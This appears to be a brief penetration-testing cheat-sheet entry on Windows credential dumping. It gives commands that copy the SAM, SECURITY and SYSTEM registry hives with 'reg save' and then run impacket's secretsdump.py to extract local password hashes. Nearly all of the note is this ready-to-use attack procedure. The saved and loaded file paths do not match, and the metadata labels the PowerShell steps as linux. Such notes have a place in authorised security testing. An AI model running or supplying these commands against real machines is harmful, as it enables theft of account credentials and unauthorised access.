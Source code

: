 # Secretsdump

## [[SAM]]
Receiving machine passwords via impacket (Admin):
    ```powershell
    # Change permissions of hklm\security to full access
    reg save hklm\sam c:\temp\sam.save
    reg save hklm\security c:\temp\security.save
    reg save hklm\system c:\temp\system.save
    secretsdump.py -sam C:\Users\ext_nviso_admin\Desktop\sam.save -security C:\Users\ext_nviso_admin\Desktop\security.save -system C:\Users\ext_nviso_admin\Desktop\system.save LOCAL
    ```

## References


```meta
requirements: 
results: 
opsec: 
oss: #linux
source: https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py 
description: Dump credentials remote and local via sam
```